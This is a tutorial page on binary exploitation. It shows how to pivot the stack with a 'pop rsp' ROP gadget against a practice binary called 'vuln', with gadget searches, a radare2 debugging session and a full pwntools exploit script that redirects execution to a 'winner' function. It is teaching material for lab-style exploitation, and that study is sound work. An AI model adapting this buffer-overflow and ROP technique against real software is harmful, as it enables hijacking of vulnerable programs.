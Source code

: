 ```yaml
---
description: Using a pop rsp gadget to stack pivot
---
```


# pop rsp

## Exploitation

### Gadgets

FIrst off, let's grab all the gadgets. I'll use `ROPgadget` again to do so:

```text
$ ROPgadget --binary vuln | grep 'pop rsp'
0x0000000000401225 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret

$ ROPgadget --binary vuln | grep 'pop rdi'
0x000000000040122b : pop rdi ; ret

$ ROPgadget --binary vuln | grep 'pop rsi'
0x0000000000401229 : pop rsi ; pop r15 ; ret
```

Now we have all the gadgets, let's chuck them into the script:

```python
POP_CHAIN = 0x401225                   # RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229
```

### Testing the pop

Let's just make sure the `pop` works by sending a basic chain and then breaking on `ret` and stepping through.

```python
payload = flat(
    'A' * 104,
    POP_CHAIN,
    buffer,
    0,            # r13
    0,            # r14
    0             # r15
)

pause()
p.sendline(payload)
print(p.recvline())
```

If you're careful, you may notice the mistake here, but I'll point it out in a sec. Send it off, attach r2.

```text
$r2 -d -A $(pidof vuln)

[0x7f96f01e9dee]> db 0x004011b8
[0x7f96f01e9dee]> dc
hit breakpoint at: 4011b8
[0x004011b8]> pxq @ rsp
0x7ffce2d4fc68  0x0000000000401225  0x00007ffce2d4fc00
0x7ffce2d4fc78  0x0000000000000000  0x00007ffce2d4fd68
```

You may see that only the gadget + 2 more values were written; this is because our buffer length is **limited**, and this is the reason we need to stack pivot. Let's step through the first `pop`.

```text
[0x004011b8]> ds
[0x00401225]> ds
[0x00401226]> dr rsp
0x7ffce2d4fc00
```

You may notice it's the same as our "leaked" value, so it's working. Now let's try and pop the `0x0` into `r13`.

```text
[0x00401226]> ds
[0x00401228]> dr r13
0x4141414141414141
```

What? We passed in `0x0` to the gadget!

Remember, however, that `pop r13` is equivalent to `mov r13, [rsp]` - the value from the top of the stack is moved into `r13`. **Because we moved RSP, the top of the stack moved to our buffer** and `AAAAAAAA` was popped into it - because that's what the top of the stack points to now.

### Full Payload

Now we understand the intricasies of the pop, let's just finish the exploit off. To account for the additional `pop` calls, we have to put some junk at the **beginning** of the buffer, before we put in the ropchain.

```python
payload = flat(
    0,                 # r13
    0,                 # r14
    0,                 # r15
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

payload += flat(
    POP_CHAIN,
    buffer             # rsp - now stack points to our buffer!
)
```

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225                   # RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
    0,                 # r13
    0,                 # r14
    0,                 # r15
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

payload += flat(
    POP_CHAIN,
    buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```

